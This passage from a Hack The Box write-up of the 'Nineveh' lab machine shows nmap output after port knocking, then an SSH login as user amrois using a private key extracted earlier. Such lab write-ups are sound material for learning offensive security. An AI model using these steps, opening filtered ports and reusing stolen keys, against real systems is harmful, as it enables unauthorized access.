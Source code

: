 ```
PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.05 seconds

```

Then, I ran a general nmap scan to check if port 22 opened up
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Nineveh]
└─$ nmap 10.10.10.43       
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-20 01:51 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```

And guess what? Port `22` did open up and now I could SSh into amrois's account using the private key we found.

```
ssh -i nineveh.priv amrois@10.10.10.43
```

```
┌──(darshan㉿kali)-[~/…/Linux-Boxes/Nineveh/_nineveh.png.extracted/secret]
└─$ sssh -i nineveh.priv amrois@10.10.10.43
Command 'sssh' not found, but can be installed with:
sudo apt install guile-ssh
Do you want to install it? (N/y)^C
                                                                                                                                                            
┌──(darshan㉿kali)-[~/…/Linux-Boxes/Nineveh/_nineveh.png.extracted/secret]
└─$ ssh -i nineveh.priv amrois@10.10.10.43 
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ whoami
amrois

```

This was a pretty neat solution. It was also the first time I was introduced to the concept of `Port Knocking`
